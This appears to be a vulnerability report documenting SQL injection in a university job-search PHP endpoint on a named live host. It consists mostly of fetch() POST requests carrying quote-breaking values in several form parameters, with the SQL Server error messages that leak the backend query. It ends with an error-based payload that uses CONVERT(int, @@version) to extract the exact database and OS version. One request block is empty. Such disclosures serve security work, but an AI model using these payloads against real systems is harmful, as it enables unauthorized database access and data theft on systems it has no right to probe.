 1. SchoolType

```ts
fetch("http://spirit.tku.edu.tw:8088/job/company/search_data_ok.php", {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: "SchoolType='",
  method: "POST",
  mode: "cors",
  credentials: "omit",
});
```

string(109) "SQLSTATE[42000]: [Microsoft][SQL Server Native Client 10.0][SQL Server]接近 ')' 之處的語法不正確。"
string(316) "

```sql
select Id
from Job A
 where ()/0.0 >= 0.5
order by (select case IsClosed when 0 then 1 when 1 then 2 end)
		, (select case when ExpiredDate is null then '2100-01-01' else ExpiredDate end) desc
		, (select case when CompanyId=0 then '' else (select ShortName from Company where Id=A.CompanyId) end)
		, Id
		"
....
```

2. PayType

```ts

```

string(112) "SQLSTATE[42000]: [Microsoft][SQL Server Native Client 10.0][SQL Server]接近 '2100' 之處的語法不正確。"
string(363) "

```sql
select Id
from Job A
 where ((select case when PayType=''' then  else 0 end))/0.0 >= 0.5
order by (select case IsClosed when 0 then 1 when 1 then 2 end)
		, (select case when ExpiredDate is null then '2100-01-01' else ExpiredDate end) desc
		, (select case when CompanyId=0 then '' else (select ShortName from Company where Id=A.CompanyId) end)
		, Id
		"
```

3. JobTags1

```ts
fetch("http://spirit.tku.edu.tw:8088/job/company/search_data_ok.php", {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: "JobTags1=1",
  method: "POST",
  mode: "cors",
  credentials: "omit",
});
```

string(121) "SQLSTATE[42000]: [Microsoft][SQL Server Native Client 10.0][SQL Server]接近關鍵字 'else' 之處的語法不正確。"
string(362) "

```sql
select Id
from Job A
 where ((select case when (IsFull=1) then  else 0 end))/0.0 >= 0.5
order by (select case IsClosed when 0 then 1 when 1 then 2 end)
		, (select case when ExpiredDate is null then '2100-01-01' else ExpiredDate end) desc
		, (select case when CompanyId=0 then '' else (select ShortName from Company where Id=A.CompanyId) end)
		, Id
		"
....
```

4. WorkTimeType

```ts
fetch("http://spirit.tku.edu.tw:8088/job/company/search_data_ok.php", {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: "WorkTimeType='",
  method: "POST",
  mode: "cors",
  credentials: "omit",
});
```

string(112) "SQLSTATE[42000]: [Microsoft][SQL Server Native Client 10.0][SQL Server]接近 '2100' 之處的語法不正確。"
string(368) "

```sql
select Id
from Job A
 where ((select case when WorkTimeType=''' then  else 0 end))/0.0 >= 0.5
order by (select case IsClosed when 0 then 1 when 1 then 2 end)
		, (select case when ExpiredDate is null then '2100-01-01' else ExpiredDate end) desc
		, (select case when CompanyId=0 then '' else (select ShortName from Company where Id=A.CompanyId) end)
		, Id
		"
....
```

5.

```js
fetch("http://spirit.tku.edu.tw:8088/job/company/search_data_ok.php", {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: `PayType=${encodeURIComponent(`123' then 1 else 0 end))/0.0 >= 0.5 AND 1=CONVERT(int, @@version)--`)}`,
  method: "POST",
  mode: "cors",
  credentials: "omit",
});
```

string(347) "SQLSTATE[22018]: [Microsoft][SQL Server Native Client 10.0][SQL Server]將 nvarchar 值 'Microsoft SQL Server 2008 R2 (RTM) - 10.50.1600.1 (Intel X86)
Apr 2 2010 15:53:02
Copyright (c) Microsoft Corporation
Enterprise Edition on Windows NT 5.2 <X86> (Build 3790: Service Pack 2) (Hypervisor)
' 轉換成資料類型 int 時，轉換失敗。"
string(429) "

```sql
select Id
from Job A
 where ((select case when PayType='123' then 1 else 0 end))/0.0 >= 0.5 AND 1=CONVERT(int, @@version)--' then  else 0 end))/0.0 >= 0.5
order by (select case IsClosed when 0 then 1 when 1 then 2 end)
		, (select case when ExpiredDate is null then '2100-01-01' else ExpiredDate end) desc
		, (select case when CompanyId=0 then '' else (select ShortName from Company where Id=A.CompanyId) end)
		, Id
		"
....
```
